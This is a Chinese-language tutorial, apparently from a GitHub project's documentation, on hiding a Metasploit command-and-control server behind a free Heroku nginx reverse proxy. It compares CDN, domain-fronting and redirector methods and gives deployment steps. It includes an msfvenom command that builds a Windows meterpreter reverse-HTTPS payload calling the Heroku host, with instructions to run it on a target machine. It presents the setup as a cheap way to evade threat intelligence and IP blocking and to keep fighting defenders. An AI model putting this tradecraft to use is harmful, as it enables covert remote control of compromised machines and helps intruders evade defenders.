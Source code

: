 # 利用heroku隐藏C2服务器(简单/零成本)

# 前言
本篇文章介绍如何使用heroku实现隐藏metasploit-framework的C2服务,相比较于业界流行的 `域前置` `CDN` `重定向` 三种隐藏C2的方法,本篇文章介绍的方法操作简单,在与 `威胁情报` 和 `IP封锁` 对抗过程成本更低(无论是时间成本还是资金成本).

# 当前流行的隐藏C2技术
`域前置` `CDN` `重定向`[ ](https://me.csdn.net/qq_41874930)是当前流行的三种隐藏C2的技术. Shanfenglan7 在其文章 [利用CDN、域前置、重定向三种技术隐藏C2的区别](https://blog.csdn.net/qq_41874930/article/details/109008708) 中进行了非常细致的说明,笔者在实际测试三种技术发现,每种技术都有一些不足.

## CDN隐藏C2
使用CDN隐藏C2的准备工作大致如下

+ 需要购买域名 (可以通过[https://www.freenom.com/](https://www.freenom.com/)使用免费的)
+ 需要购买CDN服务 (可以使用免费的[https://www.cloudflare.com/](https://www.cloudflare.com/))
+ 需要在CDN服务商处修改DNS记录
+ 需要等待DNS记录生效(如果你的域名绑定过其他IP,这个操作需要几个小时)

可以看到,虽然通过组合免费服务可以实现零成本,但是实现过程中需要进行很多配置操作,时间成本及心智成本过高.如果域名不是匿名注册,还有被追踪溯源的风险.

## 域前置隐藏C2
使用域前置隐藏C2的准备工作大致如下

+ 需要购买域名 (可以通过[https://www.freenom.com/](https://www.freenom.com/)使用免费的)
+ 需要购买CDN服务 (可以使用免费的[https://www.cloudflare.com/](https://www.cloudflare.com/))
+ 需要在CDN服务商处修改DNS记录
+ 需要等待DNS记录生效(如果你的域名绑定过其他IP,这个操作需要几个小时)
+ 需要知道cdn上的其他高信誉域名或者ip
+ 需要修改malleable profile文件

域前置相对于CDN还要进行更多的额外操作,而且当前主流CDN服务商都已经开始屏蔽域前置技术.

## 重定向隐藏C2
使用重定向隐藏C2的准备工作大致如下

+ 需要两台VPS
+ 使用apache或者nginx配置重定向转发
+ 需要修改malleable profile文件

重定向需要进行一些额外的编码及部署工作,而且还需要将一台VPS的IP地址暴露给 威胁情报 ,可能被溯源,其实并没有实现隐藏C2的目标.

# 利用heroku隐藏C2服务器
Heroku是一个支持多种编程语言的云平台即服务。简单理解就是可以免费部署docker容器并且可以开放web服务到互联网.下面介绍操作步骤.

+ 首先注册Heroku账号，点击通过 [https://dashboard.heroku.com](https://dashboard.heroku.com/) 注册一个账号 (推荐使用gmail)
+ 注册成功以后登录，登录以后点击 [部署链接](https://dashboard.heroku.com/new?template=https://github.com/FunnyWolf/nginx-proxy-heroku),
+ app名称填写为 `mydiydomain` (可自定义,名称为后续域名前缀)，TARGET环境变量填写为C2的handler地址

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\1.webp)

+ 然后点击 Deploy app 系统会自动部署.
+ 在metasploit-framework中添加handler,配置如图

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\2.webp)![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\3.webp)



+ 执行 `to_handler` 生成listener
+ 使用如下命令生成payload

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=mydiydomain.herokuapp.com LPORT=443 -f exe -o ~/payload.exe
```

+ 上传运行目标机器运行即可

# 运行效果
+ 在metasploit-framework中查看session如下,可以看到session的链接地址为heroku中转服务器地址

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\4.webp)

+ 在目标机抓包效果如下

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\5.webp)

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\6.webp)

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\7.webp)

# 总结
heroku隐藏C2从技术原理上看非常简单,使用heroku服务部署nginx反向代理服务,payload连接heroku的nginx,nginx将流量转发到C2.具体优势如下:

+ 只需要注册heroku免费账号即可
+ 无需注册或购买域名
+ 自带可信的SSL证书(heroku域名自带证书)
+ 如果IP地址被封锁,可删除原有heroku app重新部署heroku app(大约需要30s),与防守人员持续对抗
+ 操作步骤简单



